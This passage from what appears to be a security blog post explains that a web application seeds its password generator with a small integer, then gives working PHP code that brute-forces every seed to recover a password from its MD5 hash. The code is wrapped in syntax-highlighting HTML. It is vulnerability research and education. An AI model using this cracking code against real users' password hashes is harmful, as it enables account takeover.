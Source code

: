 Hmm! It looks like the random seed is actually a fairly hard-to-guess integer between 0 and 1,000,000. Fortunately, 1,000,000 is a small number. Suddenly, this is a lot easier.

In my next blog, I'm going to look at how we can use commandline tools to do a bruteforce remotely and guess a password this way, but for now let's see how we can crack the passwords using two methods: php and john the ripper.

## Cracking it with PHP

If for whatever reason you only have a single hash that you want to crack, this is by far the easiest way. I basically modified the original function (found above) to take an extra parameter - the hash - and to generate random passwords with different seeds until it finds one that matches. Here's the code:

```

<font color="#ffa500"><?php</font><br></br>
  <font color="#ff80ff">function</font> generate_random_password<font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">length</font>, <font color="#ffff60"><b>$</b></font><font color="#40ffff">hash</font><font color="#ffa500">)</font><br></br>
  <font color="#ffa500">{</font><br></br>
    <font color="#ffff60"><b>$</b></font><font color="#40ffff">chars</font> <font color="#ffff60"><b>=</b></font> '<font color="#ffa0a0">abcdefghijkmnopqrstuvwxyz023456789!@#$</font>';<br></br>
<br></br>
    <font color="#ffff60"><b>for</b></font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">j</font> <font color="#ffff60"><b>=</b></font> <font color="#ffa0a0">0</font>; <font color="#ffff60"><b>$</b></font><font color="#40ffff">j</font> <font color="#ffff60"><b><</b></font> <font color="#ffa0a0">1000000</font>; <font color="#ffff60"><b>$</b></font><font color="#40ffff">j</font><font color="#ffff60"><b>++</b></font><font color="#ffa500">)</font><br></br>
    <font color="#ffa500">{</font><br></br>
      <font color="#40ffff">srand</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">j</font><font color="#ffa500">)</font>;<br></br>
<br></br>
      <font color="#ffff60"><b>$</b></font><font color="#40ffff">passwd</font> <font color="#ffff60"><b>=</b></font> '';<br></br>
      <font color="#ffff60"><b>$</b></font><font color="#40ffff">chars_length</font> <font color="#ffff60"><b>=</b></font> <font color="#40ffff">strlen</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">chars</font><font color="#ffa500">)</font> <font color="#ffff60"><b>-</b></font> <font color="#ffa0a0">1</font>;<br></br>
<br></br>
      <font color="#ffff60"><b>for</b></font> <font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">i</font> <font color="#ffff60"><b>=</b></font> <font color="#ffa0a0">0</font>; <font color="#ffff60"><b>$</b></font><font color="#40ffff">i</font> <font color="#ffff60"><b><</b></font> <font color="#ffff60"><b>$</b></font><font color="#40ffff">length</font>; <font color="#ffff60"><b>$</b></font><font color="#40ffff">i</font><font color="#ffff60"><b>++</b></font><font color="#ffa500">)</font><br></br>
          <font color="#ffff60"><b>$</b></font><font color="#40ffff">passwd</font> <font color="#ffff60"><b>.=</b></font> <font color="#40ffff">substr</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">chars</font>, <font color="#ffa500">(</font><font color="#40ffff">rand</font><font color="#ffa500">()</font> <font color="#ffff60"><b>%</b></font> <font color="#ffff60"><b>$</b></font><font color="#40ffff">chars_length</font><font color="#ffa500">)</font>, <font color="#ffa0a0">1</font><font color="#ffa500">)</font>;<br></br>
<br></br>
      <font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">md5</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">passwd</font><font color="#ffa500">)</font> <font color="#ffff60"><b>==</b></font> <font color="#ffff60"><b>$</b></font><font color="#40ffff">hash</font><font color="#ffa500">)</font><br></br>
        <font color="#ffff60"><b>return</b></font> <font color="#ffff60"><b>$</b></font><font color="#40ffff">passwd</font>;<br></br>
    <font color="#ffa500">}</font><br></br>
  <font color="#ffa500">}</font><br></br>
<font color="#ffa500">?></font><br></br>
```
